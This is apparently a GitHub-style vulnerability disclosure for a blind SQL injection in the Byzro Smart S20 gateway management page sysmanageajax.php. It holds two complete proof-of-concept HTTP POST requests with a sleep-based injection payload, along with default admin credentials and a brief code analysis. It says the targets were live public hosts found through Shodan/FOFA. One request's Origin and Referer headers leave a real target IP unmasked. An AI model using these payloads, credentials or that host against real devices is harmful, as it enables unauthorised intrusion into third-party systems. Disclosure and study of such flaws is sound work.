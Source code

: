 There is a SQL injection vulnerability in Byzro Networks Smart S20 management platform

#### 1.Vulnerability description

Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet.
There is a SQL injection vulnerability in Byzro Networks Smart S20 gateway intelligent management platform. Attackers can exploit vulnerabilities to gain server permissions and manipulate server files to obtain sensitive information.

#### 2.Impact of vulnerabilities

Smart S20

#### 3.Vulnerability location

/sysmanage/sysmanageajax.php

#### 4.Recurrence of vulnerabilities

To protect privacy, the public IP addresses in the following examples have been coded and can be tested based on search engines such as shadon and fofa.

##### Case 1

(1)After entering the login page, the account password is admin/admin.

![image-20240128012332771](smart s20.assets/image-20240128012332771.png)

(2)Construct the following POC and execute the blind injection successfully. Note: The cookie field needs to be replaced with the value after login, and test2 cannot be repeated during the test.

```
POST /sysmanage/sysmanageajax.php HTTP/1.1
Host: 221.xxx.xxx.134:8443
Cookie: PHPSESSID=f3723499e56eadbbdba2390af1bd85af
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

src=manageadmin&type=add&id=(select*from(select+if(length(database())=3,sleep(5),1))a)|1|1&value=test3|123456
```

![image-20240128011935044](smart s20.assets/image-20240128011935044.png)

There is a delay in page response echo, which proves the existence of SQL injection vulnerability.

##### Case 2

(1)Enter the login page, the account password is admin/sssw-0476.

![image-20240128012351673](smart s20.assets/image-20240128012351673.png)

(2)Construct the following POC and execute the blind injection successfully. Note: The cookie field needs to be replaced with the value after login, and test2 cannot be repeated during the test.

```
POST /sysmanage/sysmanageajax.php HTTP/1.11
Host: 58.xxx.xxx.60:8443
Cookie: PHPSESSID=b7e24f2cb8b51338e8531e0b50da49ee
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;
Content-Length: 109
Origin: https://58.18.133.60:8443
Referer: https://58.18.133.60:8443/sysmanage/manageadmin.php
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 1.1.1.1
X-Originating-Ip: 1.1.1.1
X-Remote-Ip: 1.1.1.1
X-Remote-Addr: 1.1.1.1
Te: trailers
Connection: close

src=manageadmin&type=add&id=(select*from(select+if(length(database())=3,sleep(5),1))a)|1|1&value=test2|123456
```

![image-20240128011551226](smart s20.assets/image-20240128011551226.png)

There is a delayed response, and the 5s is consistent with the injection statement, so there is a SQL injection vulnerability.

#### 5.Code analysis

In sysmanageajax.php, first of all, the $post_src and $post_type parameters are controllable and are passed in through the post method.

![image-20240128005938583](smart s20.assets/image-20240128005938583.png)

Therefore, you can control the input of src=manageadmin and type=add, so that the program logic jumps to the content as shown below.

![image-20240128010425584](smart s20.assets/image-20240128010425584.png)

The $rolseid parameter here is directly spliced into the SQL query statement without any security filtering, so there is a SQL injection point. The attacker only needs to control the id parameter passed in through the post method to cause SQL injection.
